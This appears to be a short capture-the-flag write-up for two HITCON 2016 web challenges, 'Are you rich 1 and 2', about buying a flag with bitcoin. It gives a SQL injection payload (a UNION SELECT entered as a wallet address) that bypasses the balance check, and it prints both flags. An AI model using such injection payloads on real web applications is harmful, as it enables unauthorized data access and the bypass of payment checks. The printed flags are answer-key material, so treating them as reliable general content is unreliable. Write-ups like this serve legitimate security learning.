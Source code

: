 #hitcon 2016 : Are you rich 1 and Are you rich 2
Solved by illustris
##Challenge

###Are you rich?
```
249 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

###Are you rich 2 ?
```
117 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

##Solution
Are you rich 1 can be solved by using SQL injection to pull the contents of the table that stores flag1, but there will be lots of other writeups that explain how to do that.
I looked up the richest bitcoin wallet. As of when I wrote this, it was
>https://bitinfocharts.com/bitcoin/address/3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v

Both flags can now be obtained by SQL injection
>3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v' UNION SELECT '3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v';#

Flag 1:
>hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}

![bump](Bitcoin Shop.png)

Flag 2:
>hitcon{u51n6_07h3r_6uy5_b17c0n_70_byp455_ch3ck1n6_15_fun!!}

![bump](Bitcoin Shop2.png)